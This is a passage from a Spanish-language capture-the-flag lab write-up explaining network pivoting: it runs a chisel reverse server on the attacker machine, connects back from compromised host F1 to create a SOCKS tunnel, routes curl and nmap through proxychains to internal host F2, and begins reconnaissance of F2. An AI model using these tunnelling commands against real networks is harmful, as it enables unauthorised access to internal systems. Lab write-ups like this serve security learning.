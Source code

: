 > Despues de toda la chachara (menos mal que solo lo explico acá :P), vamos a meterle fuego!!

Descargamos el **chisel** necesario para nuestro sistema operativo y como <span style="color: gray;">atacantes</span> levantamos un servidor que escuche por el puerto `1080`:

```bash
chisel server -p 1080 --reverse
```

Y ahora en <span style="color: green;">F1</span> establecemos la conexión **SOCKS** contra nuestra máquina, generando así un "túnel" que nos permita interactuar con <span style="color: orange;">F2</span> viajando por el puerto `1111` :)

```bash
chisel client 192.168.20.26:1080 R:1111:socks
```

Liiiistones, ya generamos la conexión. Solo que para acceder a los recursos del puerto **SOCKS 127.0.0.1:1111** (o sea, que viaje por el túnel hasta <span style="color: orange;">F2</span>) necesitamos que nuestro entorno entienda como llegar al túnel, para ello usamos [proxychains](https://github.com/haad/proxychains). Modificamos su archivo de configuración (`/etc/proxychains*.conf`)y agregamos en la última línea:

```bash
socks5 127.0.0.1 1111
```

Y listones! Ya podemos ver los servicios (**22** y **80**) desde nuestra máquina de <span style="color: gray;">atacante</span>, usando a <span style="color: green;">F1</span> para llegar a <span style="color: orange;">F2</span>.

> 💡 Recuerda que es como un **"trampolin/túnel/salto/intermediario"** (por eso tambien esta implicado **proxychains**).

Puedes probar con `curl` con `nmap` con `nc` etc. La ejecución es tal que:

```bash
proxychains -q curl http://172.18.100.25
```

Bueno, muy bien, espero me haya hecho entender y haya sido didáctico. Ya teniendo la conexión con <span style="color: orange;">Friendly2 (F2)</span>, explotemos esta vaina...

---

<h1 id="lab-friendly2" style="text-align: center;"><span style="color: orange;">- Friendly2 (F2) -</span></h1>

---
---

# Reconocimiento (F2) [#](#friendly2-reconocimiento) {#friendly2-reconocimiento}

Ya conocemos los puertos abiertos:

```bash
root@friendly:/home/RiJaba1/things# ./ports.sh 172.18.100.25
Puerto Abierto: 172.18.100.25:22
Puerto Abierto: 172.18.100.25:80
```
